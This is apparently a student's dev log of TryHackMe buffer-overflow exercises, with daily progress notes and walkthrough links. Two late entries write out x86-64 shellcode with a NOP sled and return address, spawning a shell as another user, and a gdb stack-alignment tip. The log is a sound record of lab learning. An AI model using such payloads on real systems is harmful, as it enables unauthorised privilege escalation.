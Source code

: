 # Dev Log:

This document must be updated daily every time you finish a work session.

## Jakob Weir

### 2025-05-16 - TryHackMe
Spent class time doing TryHackMe on buffer overflow.

### 2025-05-19 - THM Continued
Tried to continue TryHackMe, but had trouble figuring out how to run the C code properly.

### 2025-05-20 - Further look into THM
Caught up absent group member, successfully ran C code, looked at ways to complete next part, including seeing memory addresses.

### 2025-05-21 - AP macroeconomics exam

### 2025-05-22 - Further THM research
Got an understanding of how to find and manipulate stacks. Learned some from https://medium.com/@cyberlarry/walkthrough-tryhackme-buffer-overflows-task-7-overwriting-function-pointers-ac1336979261.

### 2025-05-23 - Running on lab computers
Ran some of the TryHackMe code on lab computers to test buffer overflow there after much trial and error.

### 2025-05-27 - Strange character
Tried to figure out why there was 8c instead of cc. Eventually fixed by using a payload instead of Python output.
From the walkthrough:
Because of the order in which Unix-based systems allocate memory, we need to unset some environment variables in order to use the same memory addresses inside and outside gdb. We need to unset env LINES and unset env COLUMNS within gdb with this command:

`set exec-wrapper env -u LINES -u COLUMNS`

### 2025-05-28 - Using buffer overflow for root access
Continued to next THM section. [THM](https://tryhackme.com/room/bof1). [Walkthrough](https://l1ge.github.io/tryhackme_bof1/).

### 2025-05-29 - Continuing trying to access a different user
More THM. Found `./buffer-overflow $(python -c "print('\x90'*86+'\x48\x31\xFF\x48\x31\xC0\x48\x31\xF6\x66\xBE\xEA\x03\x66\xBF\xEA\x03\xB0\x71\x0F\x05\x48\x31\xD2\x48\xBB\xFF\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x48\x31\xC0\x50\x57\x48\x89\xE6\xB0\x3B\x0F\x05\x6A\x01\x5F\x6A\x3C\x58\x0F\x05' + 'A'*12 + '\x98\xe2\xff\xff\xff\x7f')")` but didn't work. Will retry later.

Later that day: Copy pasting from the walkthrough gave me user2 access. Tried task 9. Generated assembly code "\x48\x31\xFF\x48\x31\xC0\x48\x31\xF6\x66\xBE\xEB\x03\x66\xBF\xEB\x03\xB0\x71\x0F\x05\x48\x31\xD2\x48\xBB\xFF\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x48\x31\xC0\x50\x57\x48\x89\xE6\xB0\x3B\x0F\x05\x6A\x01\x5F\x6A\x3C\x58\x0F\x05" for switching to user3 but did not work. Will figure out more.
